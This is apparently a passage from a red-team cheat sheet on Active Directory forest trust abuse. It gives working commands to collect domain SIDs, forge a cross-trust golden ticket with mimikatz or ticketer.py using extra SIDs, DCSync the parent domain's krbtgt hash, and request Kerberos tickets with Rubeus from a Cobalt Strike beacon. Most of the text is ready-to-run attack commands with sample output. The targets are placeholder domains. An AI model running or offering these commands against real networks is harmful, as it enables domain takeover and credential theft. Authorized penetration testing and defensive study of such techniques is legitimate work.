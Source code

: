```
1.
PS > $env:userdnsdomain
CHILD.MEGACORP.LOCAL

2.
PV2 > (Get-NetComputer -ComputerName DC01.child.megacorp.local -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.child.megacorp.local | select ObjectSID).ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-31337

3.
PV > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634

4.
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```

Create cross-trust golden ticket:

```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:31337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt [/startoffset:-10 /endin:60 /renewmax:10080]
Or
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -user-id 31337 -groups 516 -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01'
```

For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```



### Request Inter-Realm TGT with Rubeus

Having just an RC4/AES keys of a user in target forest (that's a foreign user in target domain, but a native user in current domain), we can request Kerberos tickets manually with Rubeus.

Request TGT for that user in current domain:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /opsec /nowrap
```
